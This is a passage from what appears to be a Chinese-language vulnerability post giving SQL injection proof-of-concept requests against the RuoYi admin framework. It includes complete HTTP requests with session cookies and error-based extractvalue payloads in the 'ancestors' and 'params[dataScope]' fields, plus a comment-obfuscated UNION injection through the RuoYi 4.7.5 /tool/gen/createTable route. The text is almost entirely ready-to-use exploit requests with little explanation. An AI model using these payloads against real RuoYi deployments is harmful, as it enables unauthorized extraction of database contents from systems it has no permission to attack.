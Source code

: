 ```
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close

DeptName=1&DeptId=100&ParentId=12&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat((select user()))));#
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUibYl3ic7uI0g80gqSuRZLFDYpGrDL7WG63fRb6hicp0oB2Jiag51ia5wBPg/640?wx_fmt=png&from=appmsg "")  
  
第三个sql注入点POC：  
```
POST /system/role/export HTTP/1.1
Host: 127.0.0.1
Content-Length: 75
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close

params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUjibicyKHvY710wERNXn2RxX2cHxGD8sb9x8m99qj0SZx418xt2TgFD0w/640?wx_fmt=png&from=appmsg "")  
### RuoYi4.7.5版本后台sql注入  
  
```
ruoyi-4.7.5 后台 com/ruoyi/generator/controller/GenController 下/tool/gen/createTable路由存在sql注入
POC：
sql=CREATE table ss1 as SELECT/**/* FROM sys_job WHERE 1=1 union/**/SELECT/**/extractvalue(1,concat(0x7e,(select/**/version()),0x7e));
```  
  
  